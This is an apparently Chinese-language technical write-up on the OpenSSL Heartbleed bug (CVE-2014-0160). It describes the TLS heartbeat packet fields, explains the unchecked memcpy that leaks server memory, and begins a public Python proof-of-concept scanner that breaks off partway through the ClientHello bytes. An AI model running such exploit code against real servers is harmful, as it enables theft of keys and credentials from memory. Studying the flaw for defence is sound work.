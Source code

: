 | 心跳包字段           | 长度                  | 说明                                                          |
|-----------------|---------------------|-------------------------------------------------------------|
| ContentType          | 1byte                 | 心跳包类型，IANA 组织把 type 编号定义为 24（0x18）            |
| ProtocolVersion      | 2bytes                | TLS 的版本号，目前主要包括含有心跳扩展的 TLS 版本：TLSv1.0，TLSv1.1，TLSv1.2 |
| length               | 2bytes                | HeartbeatMessage 的长度                                       |
| HeartbeatMessageType | 1byte                 | Heartbeat 类型，01 表示 heartbeat_request，02 表示 heartbeat_response |
| payload_length       | 2bytes                | payload 长度                                                  |
| payload              | payload_length\*bytes | payload 的具体内容                                            |
| padding              | &gt;=16bytes          | padding 填充，最少为 16 个字节                                |

TLS 心跳包格式


## 漏洞成因 {#漏洞成因}

OpenSSL 收到心跳请求包后，并没有检查真正收到数据是不是像它所说的一样长。假如，请
求包说“我给你的是一个 30KB 的字符串”，但实际上这个字符串只有 10KB。OpenSSL 依然会
从内存中额外复制 20KB 的数据，并通过响应包返回给客户端。

心跳包最多可以发送 64KB 的数据，所以攻击者可以利用这个漏洞，获得服务器内存中的 64KB 数据。

导致该漏洞的一行代码

```text
memcpy(bp, pl, payload);
```

`memcpy()` 的作用是复制数据， `bp` 是要复制到的地方， `pl` 是数据源， `payload` 是数据的
长度。这个函数的问题在于，没有检查 `pl` 中的数据的长度是不是和 `payload` 相等。


## POC {#poc}

```python
  #!/usr/bin/python
  #-*- coding: utf-8 -*-

  # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
  # The author disclaims copyright to this source code.

  import sys
  import struct
  import socket
  import time
  import select
  import re
  from optparse import OptionParser

  options = OptionParser(usage='%prog server [options]',
                         description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
  options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


  def h2bin(x):
      return x.replace(' ', '').replace('\n', '').decode('hex')


  # ClientHello，提供协议版本、随机数、支持的加密和压缩算法等信息
  hello = h2bin('''
  16 03 02 00  dc 01 00 00 d8 03 02 53
  43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
```